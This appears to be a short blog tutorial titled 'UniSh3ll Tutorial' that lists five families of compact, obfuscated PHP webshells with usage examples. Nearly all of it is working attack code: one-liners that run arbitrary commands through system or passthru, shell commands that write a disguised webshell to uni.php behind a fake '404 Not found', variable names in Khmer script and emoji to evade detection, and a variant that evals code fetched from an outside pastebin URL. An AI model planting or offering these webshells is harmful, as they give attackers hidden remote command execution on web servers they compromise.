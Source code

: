 ```yaml
---
title: "UniSh3ll Tutorial"
date: 2020-05-26T14:28:44+07:00
description: A family of atom(s) php webshell script.
draft: false
hideToc: false
enableToc: true
enableTocContent: true
author: thik
authorEmoji: 🐱
tags:
- php
categories:
- WebShell
series:
- WebApp
image: images/feature/code-file.png
---
```


#### USh3ll-I

{{< highlight php "linenos=table" >}}
<?=$_=$_GET;$_[_]($_[0]); //.php?_=system&0=id;ls+-la
{{< / highlight >}}

#### USh3ll-II

{{< highlight bash "linenos=table" >}}
echo -e "<?=\`\$_REQUEST[_]\`?>" > uni.php
{{< / highlight >}}


{{< highlight bash "linenos=table" >}}
echo -e "<?=\`\$_REQUEST[_]\`?>\r<?='404 Not found';?>" > uni.php
{{< / highlight >}}

<b>Usage:</b> <i>curl localhost/uni.php -d _=ls+-la</i>

#### USh3ll-III

{{< highlight php "linenos=table" >}}
<?=$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ស្រលាញ់&$ា[ម]($ា[ប]); //.php?ត=true&ល=ស្រលាញ់&ម=passthru&ប=ls
{{< / highlight >}}

{{< highlight php "linenos=table" >}}
<?=$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ស្រលាញ់&$ា[ម]($ា[ប]); eval('?>'.file_get_contents($ា[ដ]));?>
{{< / highlight >}}

<b>Usage:</b> <i>uni.php?ត=true&ល=ស្រលាញ់&ម=passthru&ប=id&ដ=https://pastebin.com/raw/JfLvh0MG</i>

#### USh3ll-IV

{{< highlight php "linenos=table" >}}
<?=$a="sy";$b="stem";$c=$a.$b; $c("uname -a"); //get method
{{< / highlight >}}

#### USh3ll-V

{{< highlight php "linenos=table" >}}
<?=$_[]=@(($ក=@$_REQUEST).($😘=@$ក[0]).($😘($ក[1]))); //curl -v '127.0.0.1:8080/uni.php?0=system&1=la+-la'
{{< / highlight >}}